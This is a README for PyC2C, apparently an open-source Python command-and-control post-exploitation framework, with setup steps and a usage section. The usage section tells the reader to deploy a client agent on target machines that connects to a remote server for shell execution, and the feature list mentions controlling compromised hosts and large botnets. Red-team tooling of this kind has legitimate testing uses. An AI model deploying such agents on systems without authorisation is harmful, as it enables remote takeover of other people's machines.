 # PyC2C: Python Post-Exploitation Framework with C2C Architecture

PyC2C is a Python-based post-exploitation framework designed with a Command and Control (C2C) architecture. It enables remote execution of shell code on multiple clients, also known as bots, providing powerful capabilities for penetration testers and security professionals.

## Features

- **C2C Architecture**: Allows centralized control over multiple compromised hosts.
- **Remote Shell Execution**: Execute shell commands on remote client machines.
- **Flexible Payload Generation**: Generate custom payloads tailored to specific targets.
- **Cross-Platform Compatibility**: Compatible with various operating systems supporting Python.
- **Scalability**: Easily scale up to control large botnets efficiently.

## Installation

1. Clone the PyC2C repository:

    ```
    git clone https://github.com/nafdev01/post-exploitation.git
    ```

2. Navigate to the PyC2C directory:

    ```
    cd post-exploitation
    ```

3. Install dependencies:

    ```
    pip install -r requirements.txt
    ```

## Usage

1. Start the C2C server:

    ```
    python botServer.py
    ```

2. Configure the server settings, such as listening IP and port.

3. Deploy the client agent on target machines:

    ```
    python botClient.py --server <server_ip> --port <server_port>
    ```

4. Once the clients connect to the server, you can execute commands remotely.

## Example

1. Execute a shell command on selected connected client:

    ```bash
    whoami
    ```
2. Change the currently active bot client
    
    ```
    select_bot
    ```

## Disclaimer

This tool is intended for educational and penetration testing purposes only. Unauthorized use of this tool may violate local, state, or federal law.

## Contribution

Contributions are welcome! Feel free to submit issues, feature requests, or pull requests to improve PyC2C.
